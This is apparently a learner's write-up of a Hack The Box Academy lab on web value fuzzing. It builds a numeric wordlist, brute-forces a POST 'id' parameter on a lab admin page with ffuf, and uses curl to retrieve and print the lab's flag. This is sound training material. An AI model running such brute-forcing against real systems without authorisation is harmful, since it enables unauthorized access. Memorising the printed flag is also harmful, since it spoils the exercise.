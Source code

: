 After fuzzing a working parameter, we now have to fuzz the correct value that would return the`flag` content we need. This section will discuss fuzzing for parameter values, which should be fairly similar to fuzzing for parameters, once we develop our wordlist.

---

## Custom Wordlist

When it comes to fuzzing parameter values, we may not always find a pre-made wordlist that would work for us, as each parameter would expect a certain type of value.

For some parameters, like usernames, we can find a pre-made wordlist for potential usernames, or we may create our own based on users that may potentially be using the website. For such cases, we can look for various wordlists under the`seclists` directory and try to find one that may contain values matching the parameter we are targeting. In other cases, like custom parameters, we may have to develop our own wordlist. In this case, we can guess that the`id` parameter can accept a number input of some sort. These ids can be in a custom format, or can be sequential, like from 1-1000 or 1-1000000, and so on. We'll start with a wordlist containing all numbers from 1-1000.

There are many ways to create this wordlist, from manually typing the IDs in a file, or scripting it using Bash or Python. The simplest way is to use the following command in Bash that writes all numbers from 1-1000 to a file:

 Value Fuzzing

```shell-session
smoothment@htb[/htb]$ for i in $(seq 1 1000); do echo $i >> ids.txt; done
```

Once we run our command, we should have our wordlist ready:

 Value Fuzzing

```shell-session
smoothment@htb[/htb]$ cat ids.txt

1
2
3
4
5
6
<...SNIP...>
```

Now we can move on to fuzzing for values.

---

## Value Fuzzing

Our command should be fairly similar to the`POST` command we used to fuzz for parameters, but our`FUZZ` keyword should be put where the parameter value would be, and we will use the`ids.txt` wordlist we just created, as follows:

 Value Fuzzing

```shell-session
smoothment@htb[/htb]$ ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx


 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v1.0.2
________________________________________________

 :: Method : POST
 :: URL : http://admin.academy.htb:30794/admin/admin.php
 :: Header : Content-Type: application/x-www-form-urlencoded
 :: Data : id=FUZZ
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 40
 :: Matcher : Response status: 200,204,301,302,307,401,403
 :: Filter : Response size: xxx
________________________________________________

<...SNIP...> [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```

We see that we get a hit right away. We can finally send another`POST` request using`curl`, as we did in the previous section, use the`id` value we just found, and collect the flag.

# Question
---
![Pasted image 20250129160543.png](../../../../IMAGES/Pasted%20image%2020250129160543.png)

So, we need to create the `ids.txt` wordlist, let's use the following command:

`for i in $(seq 1 1000); do echo $i >> ids.txt; done`

![Pasted image 20250129160645.png](../../../../IMAGES/Pasted%20image%2020250129160645.png)

We can do `wc -l ids.txt` to check that indeed it has 1000 elements. 

Let's proceed with the fuzzing:

`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'`

![Pasted image 20250129160803.png](../../../../IMAGES/Pasted%20image%2020250129160803.png)

Let's filter out by size 768: `-fs 768`:

`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768 -ic `

```
ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768 -ic -c 

 /'___\ /'___\ /'___\ 
 /\ \__/ /\ \__/ __ __ /\ \__/ 
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\ 
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/ 
 \ \_\ \ \_\ \ \____/ \ \_\ 
 \/_/ \/_/ \/___/ \/_/ 

 v2.1.0-dev
________________________________________________

 :: Method : POST
 :: URL : http://admin.academy.htb:49384/admin/admin.php
 :: Wordlist : FUZZ: /home/htb-ac-1340293/ids.txt
 :: Header : Content-Type: application/x-www-form-urlencoded
 :: Data : id=FUZZ
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 40
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter : Response size: 768
________________________________________________

73 [Status: 200, Size: 787, Words: 218, Lines: 54, Duration: 77ms]
```

We got it, `73`, let's use curl now in order to collect the flag:

`curl http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded' -s | grep HTB{`

```
curl http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded' -s | grep HTB{
<div class='center'><p>HTB{p4r4m373r_fuzz1n6_15_k3y!}</p></div>
```

Flag is: `HTB{p4r4m373r_fuzz1n6_15_k3y!}`

